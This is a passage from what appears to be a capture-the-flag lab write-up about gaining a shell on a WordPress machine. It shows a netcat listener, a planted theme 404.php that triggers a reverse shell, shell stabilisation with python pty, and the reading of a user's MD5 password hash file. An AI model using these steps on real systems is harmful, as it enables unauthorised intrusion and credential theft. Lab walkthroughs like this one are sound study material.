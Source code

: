 ```shell
$ nc -lvnp 4444
```

Once completed, we execute the 404.php code in our browser 
```shell
http://<target-IP>/wp-content/themes/twentyfifteen/404.php
```
BOOM! We got a shell :)

```shell
$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.8.122.251] from (UNKNOWN) [10.10.151.145] 32879
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:27:12 up  1:02,  0 users,  load average: 1.95, 1.66, 0.96
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```
We now need to stablise our shell, we import the following command

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ whoami
whoami
daemon
daemon@linux:/$ 
```
In the Home directory we found the second flag and a password in the robot directory. 
Turns out the flag needs permission to read the file????

```shell
daemon@linux:/$ cd home
cd home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```
Turns out that password belongs to an user called robot
